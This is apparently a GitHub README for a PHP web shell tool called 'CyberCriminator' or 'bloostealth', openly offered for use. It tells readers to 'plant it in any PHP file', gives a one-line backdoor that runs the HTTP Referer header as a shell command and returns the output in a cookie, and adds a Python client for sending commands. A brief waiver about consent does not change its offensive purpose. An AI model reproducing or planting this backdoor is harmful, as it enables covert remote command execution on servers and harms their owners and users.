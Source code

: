 # CyberCriminator
Plant it in any PHP file. Totally not *sus*

## Installation

```bash
$ sudo apt-get install python3-pip
$ pip3 install requests
$ sudo apt-get install python3-urllib3
$ git clone https://github.com/bloos3rpent/bloostealth && cd bloostealth
```

## Disclaimer
Only works if `shell_exec()` function isn't disabled

## Usage

Upload `ninja.php` in the server OR insert the ff. php code anywhere in a PHP file.

```php
<? if(isset($_SERVER['HTTP_REFERER'])){$_=$_SERVER['HTTP_REFERER'];$b = `$_`;session_destroy();setcookie("x", $b, time()+30*24*60*60);} ?>
```
and then

```bash
python3 ninja.py
```

Now we can access it by inputting the bloostealth URL in the prompt

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Waiver
I am NOT responsible to any misusage of this. Only do this with consent

## License
[Cyber Criminator](https://github.com/cybercriminator)
